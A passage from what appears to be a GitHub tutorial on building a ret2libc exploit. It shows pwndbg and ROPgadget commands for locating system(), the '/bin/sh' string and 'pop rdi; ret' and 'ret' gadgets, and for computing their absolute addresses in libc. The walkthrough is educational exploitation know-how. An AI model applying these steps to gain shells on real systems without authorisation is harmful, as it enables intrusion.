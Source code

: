 ### 4. Finding the addresses of system() and "/bin/sh"

  To craft a working ret2libc exploit, it is essential to locate the exact addresses of the system() function and the string "/bin/sh" within the libc loaded in memory during the execution of the vulnerable program.
    
  - Find the **address** of `system()` by typing:
    ``` gdb 
    pwndbg> p system 
    ```
  - Find the **address** of the string `"/bin/sh"` using the pwndbg search command:
    ``` gdb 
    pwndbg> search -t string "/bin/sh"
    ```
    ![Output of checksec on main]('/foto/5.png')
  
### 5. Finding pop rdi and ret gadgets from libc
To build the ROP chain necessary for the ret2libc exploit, we need specific gadgets such as `pop rdi; ret` and a standalone  `ret` for stack alignment.

  - Determine the base address - **<base_addr>** of libc loaded in memory:
    ``` gdb 
    pwndbg> vmmap 
    ```
  ![Output of checksec on main]('/foto/6.png')

  - Exit GDB:
    ``` gdb 
    pwndbg> q
    ```

  - Use ROPgadget to find the `pop rdi` gadget:
    ``` bash 
    ROPgadget --binary /lib/x86_64-linux-gnu/libc.so.6 | grep "pop rdi"
    ```  
    This outputs gadgets including `pop rdi; ret`.\
    Take their **offset** and add it to the **<base_addr>** to get the absolute address [^2]().

  - To find the `ret` gadget (since there can be many), run:
    ``` bash 
    ROPgadget --binary /lib/x86_64-linux-gnu/libc.so.6 | grep "ret" > ret.txt
    ``` 
    This saves the output to a file ret.txt for easier searching.\
    Open `ret.txt`, find a suitable ret gadget address, and again add the libc base address to compute its absolute address [^2]().


  #### Note [^2]()
To find the absolute address of a gadget, add the libc base address and the gadget offset.
  - In GDB, you can do this by evaluating:
    ``` bash 
    gdb ./main
    pwndbg> p/x <base_addr> + <offset>
    ```
  